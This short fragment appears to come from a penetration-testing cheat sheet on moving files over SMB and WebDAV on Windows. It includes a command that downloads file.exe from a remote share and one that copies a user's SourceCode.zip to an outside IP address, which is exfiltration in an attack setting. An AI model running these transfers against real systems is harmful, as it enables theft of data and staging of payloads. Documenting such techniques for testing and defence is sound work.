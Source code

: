 # Download
```
copy \\ip.addr\share\file.exe /user:test test
```


# Upload
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```

Uploading files to the smb
```
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

